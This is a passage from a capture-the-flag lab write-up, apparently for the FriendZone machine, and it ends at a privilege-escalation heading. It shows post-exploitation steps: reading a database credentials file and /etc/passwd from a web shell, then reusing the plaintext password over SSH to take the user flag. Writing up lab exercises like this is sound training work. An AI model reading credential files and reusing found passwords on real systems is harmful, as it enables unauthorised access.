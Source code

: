 Found other credentials in the `/var/www` directory:

```
www-data@FriendZone:/var/www$ ls -la
ls -la
total 36
drwxr-xr-x  8 root root 4096 Oct  6 15:47 .
drwxr-xr-x 12 root root 4096 Oct  6 02:07 ..
drwxr-xr-x  3 root root 4096 Jan 16 22:13 admin
drwxr-xr-x  4 root root 4096 Oct  6 01:47 friendzone
drwxr-xr-x  2 root root 4096 Oct  6 01:56 friendzoneportal
drwxr-xr-x  2 root root 4096 Jan 15 21:08 friendzoneportaladmin
drwxr-xr-x  3 root root 4096 Oct  6 02:05 html
-rw-r--r--  1 root root  116 Oct  6 15:47 mysql_data.conf
drwxr-xr-x  3 root root 4096 Oct  6 01:39 uploads
www-data@FriendZone:/var/www$ cat mysql_data.conf
cat mysql_data.conf
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```

There's a `friend` user in the local passwd database:

```
www-data@FriendZone:/var/www$ grep friend /etc/passwd
grep friend /etc/passwd
friend:x:1000:1000:friend,,,:/home/friend:/bin/bash
```

I can SSH in with those credentials and grab the `user.txt` flag:

```
root@ragingunicorn:~/htb/friendzone# ssh friend@10.10.10.123
Ilcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have mail.
Last login: Sat Feb  9 23:43:09 2019 from 10.10.14.23
friend@FriendZone:~$ cat user.txt
a9ed20...
```

### Privesc
